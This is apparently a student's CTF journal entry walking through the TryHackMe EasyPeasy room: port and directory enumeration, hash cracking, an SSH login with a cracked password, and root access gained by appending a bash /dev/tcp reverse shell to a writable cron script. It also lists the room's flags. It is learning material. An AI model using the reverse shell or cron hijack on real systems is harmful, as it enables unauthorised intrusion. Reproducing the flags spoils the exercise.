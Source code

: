 ```yaml
---
Title: SWS101
categories: [SWS101, CTF Journal3]
tages: [SWS101]
---
```


### Topic : TryHackMe Rooms (EasyPeasy CTF)
----

Walkthrough

Participating in the EasyPeasy CTF was an engaging experience, blending familiar techniques with some unexpected twists. Here’s a detailed account of the steps I took to solve the challenge.

Enumeration Through Nmap
The initial phase involved using Nmap for network scanning. Here are the commands and findings:

nmap -sCV $IP-ADDRESS

Nmap Output:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-10 15:21 UTC
Nmap scan report for ip-10-10-44-157.eu-west-1.compute.internal (10.10.44.157)
Host is up (0.0024s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
MAC Address: 02:00:81:F5:B8:01 (Unknown)

To expand the scan, I used a comprehensive Nmap command to cover a wider range of ports:
nmap -p- $IP-ADDRESS

Following that, I ran another scan targeting the specific ports identified earlier:
nmap -sCV -p80,6498,65524 $IP-ADDRESS

Findings:
Open Ports: 80, 6498, 65524
nginx Version: 1.16.1
Highest Port Service: Apache
Using GoBuster for Directory Enumeration

I utilized GoBuster to identify hidden directories and files:
gobuster dir -u http://$IP-ADDRESS -x html,txt,php,js,py -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

![alt text](../image-35.png)
From the hidden directories, I found an MD5 hash in the HTML source code, which I decoded using CyberChef to get the first flag.

Flag 1: flag{f1rs7_fl4g}

To further enumerate, I ran GoBuster on the other web server:

gobuster dir -u http://$IP-ADDRESS:65524 -x html,txt,php,js,py -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

Output:
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
Cracking the Hash
The second flag involved cracking another MD5 hash, which I successfully did using md5hashing.net:

Flag 2: flag{1m_s3c0nd_fl4g}

From the main page on port 65524, I found a reference to the third flag in the HTML source.

Flag 3: flag{9fdafbd64c47471a8f54cd3fc64cd312}

Finding the Hidden Directory
I decoded the hidden text in the HTML source code using baseXX decoding algorithms until I found a path.

Hidden Directory: /n0th1ng3ls3m4tt3r

Inside this directory, another hash was discovered, which I cracked using John the Ripper:
john hash --wordlist=$downloaded-task-file-password.dic
Password: mypasswordforthatjob

SSH Login
Using the cracked password, I logged in via SSH:

ssh boring@$IP-ADDRESS -p 6498
Upon logging in, I encountered a warning message and retrieved the user flag, which seemed to be rotated. Using a Caesar cipher, I decoded it.

User Flag: flag{n0wits33msn0rm4l}

Root Flag Extraction
Finally, I checked the cron jobs in /etc/crontab and found a script that I could modify to gain root access. I used a reverse shell payload:

echo "bash -c 'exec bash -i &>/dev/tcp/$MY-VM-IP-ADDRESS/4444 <&1'" >> .mysecretcronjob.sh
I started a netcat listener:

nc -lvnp 4444
Once the reverse shell was initiated, I navigated to the root directory and found the root flag.

Root Flag: flag{63a9f0ea7bb98050796b649e85481845}

Conclusion
Despite its name, the EasyPeasy CTF presented significant challenges that required thorough enumeration and creative problem-solving. Special thanks to kral4 for crafting this engaging CTF. Each step was a learning opportunity, reinforcing key cybersecurity skills and strategies.